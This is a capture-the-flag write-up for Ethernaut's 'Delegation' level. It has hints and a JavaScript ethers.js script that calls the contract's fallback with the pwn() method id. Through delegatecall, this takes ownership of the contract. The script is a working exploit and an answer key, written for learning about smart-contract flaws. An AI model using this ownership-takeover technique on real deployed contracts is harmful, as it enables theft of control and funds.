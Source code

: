 ```yaml
---
description: >-
  In Ethernaut's Delegation, we see an example of one contract calling another
  via Solidity's delegatecall method.
---
```


# 6 - Delegation

### Hints

<details>

<summary>Hint One</summary>

The only way to interact with the deployed `Delegation` contract is via its `fallback` function. This is where you will send your exploit transaction. The fallback function will in turn call `delegatecall` on the `Delegate` contract. What piece data do you control that may affect the outcome of this call? When a function on contract B is executed via `delegatecall` from contract A updates a state variable, on which contract is that variable actually updated?

</details>

<details>

<summary>Hint Two</summary>

The `delegatecall` function takes the first four bytes of the keccak256 hash of the function signature to call as its first argument. When a function is run via `delegatecall` it is executed in the context of the contract that called it, meaning any changes it makes to any state variables will be reflected in the calling contract, not the contract being called.

</details>

### Scripted Solution

```javascript
const fs = require('fs')
const ethers = require('ethers')
require('dotenv').config({ path: './.env' })

/**
 * Initialize Ethers objects needed to interact with the blockchain and
 * contract.
 */
async function setup(contractName) {
  // Create provider - a read-only abstraction to access blockchain data
  const provider = new ethers.providers.InfuraProvider(process.env.NETWORK)
  // Create player wallet
  const playerWallet = new ethers.Wallet(process.env.PRIVATE_KEY)
  // Create player wallet signer - an abstraction of an Ethereum account
  const playerWalletSigner = await playerWallet.connect(provider)
  // Create contract instance - an abstraction of the deployed contract code
  const contractAbi = fs.readFileSync(`./${contractName}.abi`, 'utf8')
  const contract = new ethers.Contract(
    process.env.CONTRACT_ADDRESS,
    contractAbi,
    playerWalletSigner
  )

  return { provider, playerWallet, playerWalletSigner, contract }
}

/**
 * Run contract exploit.
 */
async function main() {
  // Get Ethers objects needed to interact with the blockchain and contract
  const { playerWalletSigner, contract: delegationContract } = await setup(
    'Delegation'
  )

  // Get initial contract owner address
  console.log(`Delegation contract owner: ${await delegationContract.owner()}`)

  // Method id: first four bytes of the keccak256 hash of the function signature
  const pwnMethodId = ethers.utils.id('pwn()').substring(0, 10)

  // Trigger 'Delegation' fallback function and call pwn() on 'Delegate'
  console.log('Sending transaction to trigger fallback and call pwn()...')
  const delegationFallbackTx = await playerWalletSigner.sendTransaction({
    to: process.env.CONTRACT_ADDRESS,
    gasLimit: 1000000,
    gasPrice: 20000000000,
    data: pwnMethodId,
  })
  await delegationFallbackTx.wait(1)

  // Confirm contract owner is now player address
  console.log(
    `Delegation contract owner now: ${await delegationContract.owner()}`
  )
}

main()
  .then(() => process.exit(0))
  .catch((error) => {
    console.error(error)
    process.exit(1)
  })
```
